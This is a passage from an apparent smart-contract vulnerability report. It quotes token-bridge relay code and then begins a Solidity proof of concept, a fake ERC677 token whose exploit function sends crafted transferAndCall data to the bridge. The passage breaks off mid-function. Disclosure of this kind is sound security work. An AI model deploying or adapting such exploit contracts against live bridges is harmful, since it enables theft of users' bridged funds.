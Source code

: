 ```solidity
        // native unbridged token
        if (!isTokenRegistered(_token)) {
            uint8 decimals = TokenReader.readDecimals(_token);
            _initializeTokenBridgeLimits(_token, decimals);
        }

        require(withinLimit(_token, _value));
        addTotalSpentPerDay(_token, getCurrentDay(), _value);

        bytes memory data = _prepareMessage(nativeTokenAddress(_token), _token, _receiver, _value, _data);
        bytes32 _messageId = _passMessage(data, true);
        _recordBridgeOperation(_messageId, _token, _from, _value);
    }

```











## 🧪 Proof of Concept (PoC)

```solidity

✅Scenario 1



// Attacker 

// SPDX-License-Identifier: MIT
pragma solidity ^0.7.5;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

// Fake ERC677 Token (Malicious Version)
contract FakeERC677Token is ERC20 {
    uint256 private initialSupply = 1000000 * 10**18;

    constructor() ERC20("FakeERC677Token", "FET677") {
        _mint(msg.sender, initialSupply);
    }

    // Exploit trigger function
    function exploit(address bridge, uint256 value) external {
        require(balanceOf(msg.sender) >= value, "Not enough tokens");

        _transfer(msg.sender, address(this), value);

        _approve(address(this), bridge, value);

        bytes memory maliciousData = abi.encodePacked(address(0));
        //bytes memory maliciousData = abi.encodePacked(0x0000000000000000000000000000000000000000);


        transferAndCall(bridge, value, maliciousData);
    }

    function transferAndCall(address to, uint256 value, bytes memory data) public returns (bool) {
```